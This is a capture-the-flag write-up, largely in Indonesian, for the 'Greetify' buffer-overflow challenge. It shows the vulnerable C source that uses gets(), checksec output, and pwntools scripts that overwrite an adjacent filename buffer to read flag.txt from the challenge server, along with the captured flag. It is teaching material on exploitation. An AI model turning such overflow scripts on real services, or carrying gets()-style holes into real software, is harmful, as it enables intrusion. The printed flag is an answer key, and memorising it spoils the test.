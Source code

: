 ## Challenge Name: Greetify
>Category: Binary Exploitation

>Points: 147

>Solves: 47

### Challenge Description: 

Because I'm feeling lonely, I made an application to greet me. But I'm sure that I'm not the only one who's lonely, so I made it in a way that it can greet anyone. However, I'm not sure if it's safe to use. Can you help me check it?

Flag is at flag.txt

```nc 34.101.174.85 10001```

Author: NeoZap


Artifact Files:
* [chall](https://ctf.compfest.id/files/805a61610221c3483b8a3abc9f2756a0/chall?token=eyJ1c2VyX2lkIjoxMCwidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6OH0.ZNIVGA.G0sg6-XJJftr04o086hJMFExRgk)
* [chall.c](https://ctf.compfest.id/files/54de91b912b6f26857e13b63fd223ff1/chall.c?token=eyJ1c2VyX2lkIjoxMCwidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6OX0.ZNIVGA.tBYoAqotR6pu1usMytokkGT6xC8)

### Approach

**1. Analyze the file?**

Unduh file artifak yang ada. Setelah itu, mari kita analisis. Pertama kita lihat isi ```chall.c```.
```
#include <stdio.h>

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);

    char file_to_open[] = "hello_there.txt";

    puts("Welcome to Greetify! ^^");
    puts("We are here to greet you, hope you enjoy our company! :D");
    printf("First off, what is your name? ");

    char name[88];
    gets(name);

    FILE *fptr = fopen((char *)file_to_open, "r");
    if (fptr == NULL) {
        printf("File %s does not exist! >:(", file_to_open);
        return 69;
    }

    char* hello;
    fscanf(fptr, "%s", hello);
    puts("");
    printf("%s %s\n", hello, name);

    puts("Fin. Thank you for using Greetify! ^^");
    fclose(fptr);
}
```
Jika kita analisis, kode ini memiliki celah keamanan yakni pada ```gets()```. Fungsi ```gets()``` membaca input sampai bertemu newline (\n). Hal ini membuat program ini rentan terkena buffer overflow.

Sebelum menyerang, kita lihat apa proteksi yang dimiliki oleh file binary ```chall```. Pemeriksaan bisa dilakukan dengan program ```checksec``` yang bisa diunduh dengan command:
```
sudo apt install checksec
```
Untuk memerika proteksi, gunakan command berikut:
```
checksec --file=chall
```
Diperoleh:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   72) Symbols	  No	0		2		chall

```
File ini tidak ada stack canary, namun ada NX (non-executable) dan PIE (posisi symbol bisa berubah-ubah tiap dieksekusi). 

**2. Flood the Buffer and Get the flag**

Karena tidak ada canary, kita bisa coba jebol buffernya dengan script berikut. Karena file binary di local dan server sama, kita coba tembak saja ke server mumpung gak ada poin minus kalau salah tebak.
```
import pwn

# hubungkan ke server
r = pwn.remote('34.101.174.85', 10001)

# terima 2 pesan awal
print(r.recvline())
print(r.recvline())

# Tunggu promptnya muncul
r.recvuntil(b"First off, what is your name? ")

# Kirim payload untuk tes buffer overflow
r.sendline(b"A" * 100)

# Lihat responsenya
response = r.recvall()
print(response.decode())
```
Coba kita jalankan scriptnya.
```
[+] Opening connection to 34.101.174.85 on port 10001: Done
b'Welcome to Greetify! ^^\n'
b'We are here to greet you, hope you enjoy our company! :D\n'
[+] Receiving all data: Done (29B)
[*] Closed connection to 34.101.174.85 port 10001
File AAAA does not exist! >:(
```
Nah sip buffernya bisa dijebol ternyata. Karena di line terakhir tertulis nama filenya AAAA, berarti posisi buffer nama file ada sekitar 96 bytes dari awal buffer input nama.

Sekarang apa payload yang tepat??

Biasanya kalo soal ctf macam ini, flagnya ada di file bernama ```flag.txt```. Coba kita jadikan itu payload.
```
import pwn

# hubungkan ke server
r = pwn.remote('34.101.174.85', 10001)

# terima 2 pesan awal
print(r.recvline())
print(r.recvline())

# Tunggu promptnya muncul
r.recvuntil(b"First off, what is your name? ")

# Kirim payload untuk mendapatkan file
r.sendline(b"A" * 96 + b"flag.txt")

# Lihat responsenya
response = r.recvall()
print(response.decode())
```
Coba kita jalankan.
```
[+] Opening connection to 34.101.174.85 on port 10001: Done
b'Welcome to Greetify! ^^\n'
b'We are here to greet you, hope you enjoy our company! :D\n'
[+] Receiving all data: Done (212B)
[*] Closed connection to 34.101.174.85 port 10001

COMPFEST15{buffernya_bocor_mz__jadi_ngebuka_file_lain_deh___h3hEh3} AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAflag.txt
Fin. Thank you for using Greetify! ^^
```
Alhamdulillah dapat flagnya. Flagnya adalah:
```
COMPFEST15{buffernya_bocor_mz__jadi_ngebuka_file_lain_deh___h3hEh3}
```
### Reflections

Permulaan menarik untuk belajar buffer overflow dan ```pwntools```.

---
[Back to home](../Readme.md)
